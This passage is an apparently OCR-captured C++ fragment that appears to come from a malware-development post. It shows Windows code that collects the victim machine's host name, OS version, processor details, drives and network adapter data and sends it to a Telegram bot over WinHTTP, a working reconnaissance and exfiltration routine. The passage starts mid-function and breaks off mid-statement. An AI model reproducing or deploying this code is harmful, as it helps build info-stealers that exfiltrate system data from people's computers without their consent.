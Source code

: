 ```cpp
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

  // set the headers
  if (!WinHttpSendRequest(hRequest, L"Content-Type: application/x-www-form-urlencoded\r\n", -1, requestBody, strlen(requestBody), strlen(requestBody), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;
}

// get systeminfo and send to chat via tgbot logic
int main(int argc, char* argv[]) {

  // test tgbot sending message
  char test[1024];
  const char* message = "meow-meow";
  snprintf(test, sizeof(test), "{\"text\":\"%s\"}", message);
  sendToTgBot(test);

  char systemInfo[4096];

  // Get host name
  CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
  DWORD size = sizeof(hostName) / sizeof(hostName[0]);
  GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

  // Get OS version
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  // Get system information
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  // Get logical drive information
  DWORD drives = GetLogicalDrives();

  // Get IP address
  IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
  DWORD adapterInfoSize = sizeof(adapterInfo);
  if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
    printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
    return false;
  }

  snprintf(systemInfo, sizeof(systemInfo),
    "Host Name: %s\n"  // Use %s for CHAR
    "OS Version: %d.%d.%d\n"
    "Processor Architecture: %d\n"
    "Number of Processors: %d\n"
    "Logical Drives: %X\n",
```